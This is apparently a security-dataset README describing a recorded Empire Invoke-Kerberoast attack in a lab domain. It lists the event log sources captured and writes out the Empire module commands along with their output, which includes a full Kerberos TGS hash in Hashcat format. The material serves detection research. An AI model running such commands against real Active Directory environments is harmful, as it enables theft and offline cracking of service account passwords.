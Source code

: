 # Empire Invoke-Kerberoast

During a Kerberoast attack, an adversary can use Domain credentials captured on any user to request Kerberos TGS tickets for accounts that are associated with the SPN records in Active Directory (AD). The TGS tickets are signed with the targeted user or services NTLM hash. This can then be cracked offline to retrieve the clear text password. By default, the tools to automate this process will retrieve the TGS ticket in the encrypted RC4 algorithm. 

## Technique(s) ID

T1208

## Creators

Jonathan Johnson [@jsecurity101](https://twitter.com/jsecurity101)

## Dataset

[empire_kerberoast.tar.gz](./empire_kerberoast.tar.gz)

## Network Environment

Shire

## Time Taken

2019-07-23025215

## About this file

| log_name                                   | source_name                         | task                                                   |   record_number |
|--------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                         | PowerShell                          | Pipeline Execution Details                             |             105 |
| Windows PowerShell                         | PowerShell                          | Provider Lifecycle                                     |               8 |
| Windows PowerShell                         | PowerShell                          | Engine Lifecycle                                       |               1 |
| System                                     | Service Control Manager             |                                                        |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |             104 |
| Security                                   | Microsoft-Windows-Security-Auditing | Registry                                               |              40 |
| Security                                   | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |              28 |
| Security                                   | Microsoft-Windows-Security-Auditing | Handle Manipulation                                    |              10 |
| Security                                   | Microsoft-Windows-Security-Auditing | Process Termination                                    |               5 |
| Security                                   | Microsoft-Windows-Security-Auditing | Logoff                                                 |               4 |
| Security                                   | Microsoft-Windows-Security-Auditing | Group Membership                                       |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | Logon                                                  |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | Process Creation                                       |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | Authorization Policy Change                            |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               1 |
| Security                                   | Microsoft-Windows-Security-Auditing | Special Logon                                          |               1 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      |                                                        |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |            1269 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             396 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |             266 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             146 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |              78 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               5 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |               3 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               3 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               3 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |              90 |

## Attacker Activity

```
usemodule credentials/invoke_kerberoast
set domain shire.com
set OutputFormat Hashcat
execute
```

```
Job started: UA965R
[*] Valid results returned by 172.18.39.106
[*] Agent ENPLZ52T returned results.


TicketByteHexStream  : 
Hash                 : $krb5tgs$23$*gandalf$shire.com$glamdring/shire.com*$7E5B69B9E3D5F6690CB7D7E18AD5F8CE$F37514C6949A
                       F284A4F74ACE9E7C20ED00E6E53D24FFA0B84F6D1D751B7CA006C14022DE8D974AF8869E5FF01ED2AE69D8AA7D578725A
                       D29B59B278FC76DE32F8426BE879FCAEC7173C2C00594C1F589B421BC05B136E8957A419838090A07DFE0EBC40ECBB970
                       63319BB983A364BF08E943CEC63E2BF929F007B623C78CF4492CB9AD2C086BA4F312A2C06C328B32992E4D668583E7401
                       55E2D5AD08DBF9A285F9F09B193B104D3567E5C465E1F7CE85CB9C778B50CF4748EC357158B0D4E172599703A6AC6C6E5
                       ED097B01512C6533E4356C8980DC496260F40D79D10360CE83C33C72250B0F2FDACB479499F6F8ADF096A8857BB081E98
                       BF2A5B8ACA19C179AEA785D5CEFCC867DCDC212103E2ED939918BFE8EC428F315BF736DFF5242894796FB36FC454F6250
                       4D4248C26673BF2BCC3AA9BFA40370C9AB409CABDF4E5884AF7EAFE4EF5CA8CD628C0C5DF1952B23D9799344A99AB7568
                       500DF946CAF1DCEF07B9EEDF5E47D0FC5FA61439F18BDC3443BC5A1F9D737EB2737AEC48B96E095054CCA6714AA72E3DF
                       480CD0BC9EE8F4E09FC89322CA07FEABDDD0A1C133408B82112AFA251C127C500734425E40061C331C749CCE9A3B48D92
                       A00671ED7F921179C2BE2F7290257215588CDC5CC6985F6AC0C728096A2E8EADD46A7B13D00AF4B7D0D1677994B0F3FD2
                       E9FDDD18877B8D57DDDCCB447111A06394FFCEC512EC47466C9096D8F4B0A4CDCC1E3B90EEC0B9E0D259E32AF7E5587D9
                       01B7CDDEFCF79BD4F722C1AE9EDC8B3082E10801237CAB6D8E5FC4C012AAB1A5EAF8DD61D89C3A3C6F4E93CAC207698F8
                       5AD012C19E3A2FA90192D4885BC0895A7E3E19DE7CAA2DC15F83D06015A576F557AB9301736B897E2DCD983489E89B292
                       C4EB740F9BFC10561E075A4EA2444E5A2E688211BC07DE4099E20351D3E99E4F64F9A7E60841379CCE3824C2973750C6B
                       47E28F63D5C10A4CCEA02540E44AD76BB18357387E81A588C6C38DFBE8C272CA94B9402F62C981ECAA0EC69EB65224668
                       CC8EA41B7C08FFC07354B68E13C6020FA58B152D6FCEAF5D0705F9C7EADEF7A047994DDEE3D7A33536F320287D30EC9FA
                       763C1F4FD8592A52C156A0F6D12FBB40DA7E758D865C4EC738D345AF790D4C26F4DD5E4193E2A488EF030C1921C2BF5D2
                       D7FD569FC707652B5491BFBC29E3D2804BFDB7B2849E7E2C5349277EAC4AEB7A5D86AFE0696885683920A1E10C8CAA1EC
                       61247B895A7D6044F50A4B33116D231ACC2B1BA49FB511659CFFE6C9C79BA8548A2044C0BB775C0B1EE8B85CE5A428E85
                       60160CAACADA20141A92B6FC4456BE7D0A56A5659FB07823BA106F939866807A57DCA7B985E29F9392CEA728856E9AB8F
                       619A1EAAF4B8540050520E1B49F208BF6C09B20F3E83E76BFA29457A1050DBCAB5D8B4FDAAEF64FCAE4C8667D132B259E
                       2C7D2E3DCF72BAAF2BB98
SamAccountName       : gandalf
DistinguishedName    : CN=Gandalf TheWhite,CN=Users,DC=shire,DC=com
ServicePrincipalName : glamdring/shire.com






Invoke-Kerberoast completed!
```